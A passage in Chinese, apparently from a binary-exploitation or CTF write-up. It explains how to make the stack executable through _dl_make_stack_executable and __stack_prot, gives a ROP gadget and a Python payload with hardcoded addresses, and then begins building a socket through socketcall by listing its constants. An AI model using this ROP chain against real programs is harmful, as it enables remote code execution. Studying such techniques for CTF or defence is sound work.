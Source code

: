 这里要讲解以下程序初始化的知识，程序第一个运行的函数并不是main函数，而是\_start入口函数，其会调用\_\_libc\_start\_main，该函数会设置一些环境变量，全局变量等。而在这其中有3个十分关键的全局变量\_\_libc\_stack\_end，\_dl\_pagesize和\_\_stack\_prot。

> \_\_libc\_stack\_end：储存了栈顶地址。\_dl\_pagesize：储存了页的大小。\_\_stack\_prot：是栈的权限。

因此我们可以利用\_\_libc\_stack\_end作为mprotect的地址，但是mprotect要求地址是页对齐的，而\_\_libc\_stack\_end并非页对齐，此时我们可以利用\_dl\_make\_stack\_executable函数。

> \_dl\_make\_stack\_executable：只要eax为\_\_libc\_stack\_end的地址，将会调用mprotect(\_\_libc\_stack\_end & -dl_pagesize, dl_pagesize, _stack_prot)

默认情况下，_stack_prot为0x1000000,我们需要将其修改为7。

````bash
0x0804b5eb : pop dword ptr [ecx] ; ret
````

在程序中找到上面的gadget，我们可以将ecx设置为_stack_prot的地址，然后利用改gadget修改其为7。

再利用push esp;ret;将eip转到栈上。

```python
#1.stack executable
    peax_ret=0x080b8536
    pecx_ret=0x080583c9
    p_ecx_ret=0x0804b5eb
    push_esp_ret=0x080b8546
    libc_stack_end=0x080E9FC8
    stack_prot=0x080E9FEC
    dl_make_stack_executable=0x0809A080
    payload=b'a'*8+p32(ip)
    payload+=p32(pecx_ret)+p32(stack_prot)+\
             p32(p_ecx_ret)+p32(7)+\
             p32(peax_ret)+p32(libc_stack_end)+\
             p32(dl_make_stack_executable)+p32(push_esp_ret)
```

**创建socket**

利用系统调用socketcall来创建socket。其原型如下：

```c
int syscall(SYS_socketcall, int call, unsigned long *args);
```

call代表具体要调用的功能，args是该功能所需参数。call所能调用的功能即其相应的代号如下：

````c
#define SYS_SOCKET  1   /* sys_socket(2)    */
#define SYS_BIND  2   /* sys_bind(2)      */
#define SYS_CONNECT 3   /* sys_connect(2)   */
#define SYS_LISTEN  4   /* sys_listen(2)    */
#define SYS_ACCEPT  5   /* sys_accept(2)    */
#define SYS_GETSOCKNAME 6   /* sys_getsockname(2)   */
#define SYS_GETPEERNAME 7   /* sys_getpeername(2)   */
#define SYS_SOCKETPAIR  8   /* sys_socketpair(2)    */
#define SYS_SEND  9   /* sys_send(2)      */
#define SYS_RECV  10    /* sys_recv(2)      */
#define SYS_SENDTO  11    /* sys_sendto(2)    */
#define SYS_RECVFROM  12    /* sys_recvfrom(2)    */
#define SYS_SHUTDOWN  13    /* sys_shutdown(2)    */
#define SYS_SETSOCKOPT  14    /* sys_setsockopt(2)    */
#define SYS_GETSOCKOPT  15    /* sys_getsockopt(2)    */
#define SYS_SENDMSG 16    /* sys_sendmsg(2)   */
#define SYS_RECVMSG 17    /* sys_recvmsg(2)   */
#define SYS_ACCEPT4 18    /* sys_accept4(2)   */
#define SYS_RECVMMSG  19    /* sys_recvmmsg(2)    */
#define SYS_SENDMMSG  20    /* sys_sendmmsg(2)    */
````
